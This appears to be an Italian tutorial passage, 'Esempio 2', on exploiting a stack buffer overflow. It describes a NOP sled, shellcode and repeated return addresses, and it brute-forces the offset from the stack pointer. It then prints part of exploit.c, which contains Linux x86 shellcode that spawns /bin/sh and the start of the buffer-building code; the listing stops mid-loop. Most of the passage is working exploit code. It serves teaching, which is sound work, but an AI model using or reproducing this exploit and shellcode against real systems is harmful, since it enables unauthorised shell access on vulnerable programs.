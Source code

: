 

***Esempio 2***
**DESCRIZIONE DEL EXPLOIT**:
L’exploit funziona creando un buffer più grande di quello previsto nel programma vulnerabile, che contiene:
- una **NOP sled** all’inizio (cioè tante istruzioni “no operation” che servono ad aumentare la probabilità che il flusso di esecuzione arrivi alla shellcode),
- la **shellcode vera e propria** al centro,
- e tanti **indirizzi di ritorno uguali** alla fine, calcolati per far puntare l’EIP alla zona della NOP sled o alla shellcode.
Per sapere quale indirizzo usare per sovrascrivere l’EIP, la funzione `sp()` prende l’attuale valore dello stack pointer, e da lì viene **sottratto un offset** per avvicinarsi al punto dove sarà posizionato il buffer nello stack del programma vulnerabile. Poiché l’indirizzo non è noto con certezza, si fa un brute-force su vari offset (es: da 200 a 400) fino a trovare quello giusto.

Quando si trova il valore corretto, l’EIP viene sovrascritto con l’indirizzo che punta alla shellcode, che viene quindi eseguita e apre una shell.
`exploit.c`
```c
#include<stdlib.h>
#include<unistd.h>
#include<stdio.h>
#include<string.h>

#define BUFFERSIZE 600  /* vulnerable buffer + 100 bytes */

/* linux x86 shellcode */
char lunixshell[] = "\xeb\x1d\x5e\x29\xc0\x88\x46\x07\x89\x46\x0c\x89\x76\x08\xb0"
                    "\x0b\x87\xf3\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x29\xc0\x40\xcd"
                    "\x80\xe8\xde\xff\xff\xff/bin/sh";

unsigned long sp(void)
{
	__asm__("movl %esp, %eax"); //when i invoce this, returns the head of the stack
}

int main(int argc, char *argv[])
{
	int i, offset, os;
	long esp, ret, *addr_ptr;
	char *buffer, *ptr, *osptr;

	if(argc<2) return 0;   /* quit if they didnt specify an offset */

	offset = atoi(argv[1]);  /* get the offset they specified */
	esp    = sp();           /* get the stack pointer */
	ret    = esp-offset;     /* sp - offset = return address *///valore con cui sovrascriverò l'IP del programma vulnerabile
	//E' ret il valore dell'indice nel buffer dove si trova la shellcode

	printf("Stack pointer: 0x%x\n", esp);
	printf("       Offset: 0x%x\n", offset);
	printf("  Return addr: 0x%x\n", ret);

	/* allocate memory for our buffer */
	if(!(buffer = malloc(BUFFERSIZE))) {
		printf("Couldn't allocate memory.\n");
		exit(-1);
	}

	/* fill buffer with ret addr's */
	ptr = buffer;
	addr_ptr = (long *)ptr;
	for(i=0; i<BUFFERSIZE; i+=4)
```